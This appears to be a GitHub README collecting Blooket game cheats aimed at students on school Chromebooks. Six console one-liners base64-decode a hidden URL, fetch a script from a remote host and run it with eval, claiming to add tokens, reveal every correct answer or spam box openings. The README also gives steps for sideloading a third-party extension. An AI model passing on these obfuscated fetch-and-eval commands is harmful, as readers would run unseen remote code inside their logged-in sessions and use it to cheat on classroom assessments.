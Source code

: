 ![New Project](https://user-images.githubusercontent.com/59119852/142629180-290ce6cc-7690-4534-ba04-216f49ca8273.png)
btw I found the blooket font: Titan-One

## What is this?

This is a collection of different popular hacks and cheats for Blooket. None of them were made by me at the moment. Scroll down to the bottom of the page for credits and more details. I have only chosen hacks that can be run on a chromebook since most people play blooket at school on their chromebooks.

## How to use?

If the Hack / Cheat is labeled with "Console" then simply do Ctrl+Shift+j to open the console and paste the script. <br>
If the Hack / Cheat is labeled with "Bookmarklet" then simply put `javascript:` in the search bar before the script.

## News

Glixzzy Blooket Hacks no longer works since he has moved them to a different location. Because of this change I have put the new scripts of the cheats here. I have also removed flood games since it no longer works. I am aware that right now this repository is sorta empty. All it contains are hacks / cheats from Glixzzy. I promise you if someone releases a better and good cheat that actually works I will add it to this repository. 

## Cheats

- [Glixzzy Blooket Hacks](#glixzzy-hack)
  - [Add Tokens](#addTokens.js)
  - [Bypass Random Name](#bypassRandomName.js)
  - [Get All Blooks](#getAllBlooksInGame.js)
  - [Get Every Answer Correct](#getEveryAnswerCorrect.js)
  - [Spam Blook Boxes](#spamOpenBoxes.js)
  - [Sell All Duplicate Blooks](#sellDupeBlooks.js)

## Chrome Extension

Instead of making one which I tried, I found one which is just amazing and works so good. It is made by @OneMinesraft2. Check out his profile he deserves the credit. It uses hacks and cheats from @Glixzzy and @OneMinesraft2. 
Taken from <https://github.com/mynameismax/blooket-extension>.
1. Download repo as ZIP
2. Unzip ZIP file
3. Go to chrome://extensions and enable developer mode if its not already on
4. Click 'Load Unpacked'
5. Navigate to the extracted ZIP folder and select it

# <a id="glixzzy-hack"></a>Glixzzy's blooket-hack (Console)

These Hacks / Cheats are taken from <https://schoolcheats.net/blooket>. Feel free to explore that website for more.

## <a id="addTokens.js"></a>addTokens.js

note: **This cheat also includes adding max xp for the day**

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="bypassRandomName.js"></a>bypassRandomName.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEJ5cGFzc1JhbmRvbU5hbWUuanM=')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="getAllBlooksInGame.js"></a>getAllBlooksInGame.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEdldEFsbEJsb29rcy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="getEveryAnswerCorrect.js"></a>getEveryAnswerCorrect.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEV2ZXJ5QW5zd2VyQ29ycmVjdC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="spamOpenBoxes.js"></a>spamOpenBoxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="sellDupeBlooks.js"></a>sellDupeBlooks.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTM2L2dsb2JhbFNlbGxEdXBlQmxvb2tzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

# More coming soon
